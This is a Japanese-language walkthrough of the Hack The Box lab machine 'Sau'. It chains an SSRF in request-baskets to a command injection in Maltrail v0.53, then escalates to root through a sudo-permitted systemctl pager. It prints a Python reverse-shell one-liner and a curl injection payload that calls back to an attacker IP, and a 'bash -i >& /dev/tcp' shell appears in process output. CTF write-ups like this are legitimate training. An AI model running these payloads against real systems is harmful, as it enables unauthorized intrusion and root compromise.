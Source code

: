 #### nmap

port555555にブラウザでアクセスする
![](/images/20230821061029.png)

新しいバスケットを作成
![](/images/20230821061250.png)
「Open Backet」で送信する
![](/images/20230821061618.png)
いくつかのオプションを設定できる
この機能を使えば、このバスケットに送られたリクエストを、ここに貼り付けた任意のURLにリダイレクトすることができる。
「任意の」URL を貼り付けてもよいでしょうか? ネットワーク内でも???
![](/images/20230821061945.png)

>"forward_url"：クライアントのリクエストをどこに転送するかをサーバに伝えます。
>"proxy_response" : クライアントがリクエストから返ってきた情報を知りたい場合にサーバーに指示する。
 >"insecure_tls" : サーバにSSL証明書のCAを検証させたくない場合。

ページの下に[[request-baskets Version1.21]]が表示されている
![](/images/20230821062645.png)
検索っしてみるとSSRFの脆弱性があることが分かる
###### 参照
https://notes.sjtu.edu.cn/s/MUUhEymt7#
https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

「Configuration Settings」のURLに「http://127.0.0.1:80/login」全部のチェックボックスにチェックを入れて「Apply」を押す

URLに先ほど作成したBasketsのアドレスを入れる

![](/images/20230821065216.png)

proxy_responseをtrueに設定した理由を説明します。リクエストバスケットのドキュメントを読んだ後、それが何であるか、それがどのように機能するかについての一般的な概念を得ました。転送URLを設定すると、バスケットにリクエストがキャッチされ、設定したURLに転送されます。プロキシ応答をtrueに設定すると、バスケットURLをリクエストすると、リクエストがForward URLに転送されるだけでなく、ブラウザで応答が表示されます。

ページの下に[[Maltrail v0.53]]が表示されている。
これにはOS command injectionの脆弱性がある


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' | base64
```

```BASH
curl 'http://10.10.11.224:55555/babesket' -d 'username=;`echo "base64でエンコードした物を入れる" | base64 -d | bash`'
```

または
```bash
git clone https://github.com/massco99/htb_sau.git
```

リスナーを起動しておけばシェルがとれる

![](/images/20230821071929.png)

#### 権限昇格

```BASH
puma$ sudo -S -l
... snip ...
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

```BASH
puma$ sudo /usr/bin/systemctl status trail.service
> WARNING: terminal is not fully functional
> -  (press RETURN)
> ● trail.service - Maltrail. Server of malicious traffic detection system
>      Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
>      Active: active (running) since Thu 2023-07-27 20:59:09 UTC; 38min ago
>        Docs: https://github.com/stamparm/maltrail#readme
>              https://github.com/stamparm/maltrail/wiki
>    Main PID: 894 (python3)
>       Tasks: 27 (limit: 4662)
>      Memory: 46.1M
>      CGroup: /system.slice/trail.service
>              ├─ 894 /usr/bin/python3 server.py
>              ├─ 949 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 950 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 952 bash
>              ├─ 953 /bin/bash -c bash -i >& /dev/tcp/10.10.16.101/9999 0>&1
>              ├─ 954 bash -i
>              ├─ 985 sh
>              ├─1001 /bin/bash
>              ├─1003 /bin/sh
>              ├─1022 script /dev/null /bin/bash
>              ├─1023 bash -i
>              ├─1030 sudo /usr/bin/systemctl status trail.service
>              ├─1031 /usr/bin/systemctl status trail.service
>              ├─1032 pager
> lines 1-23~
```

```BASH
> lines 1-23~!sh
>> root# id
>>> uid=0(root) gid=0(root) groups=0(root)
```








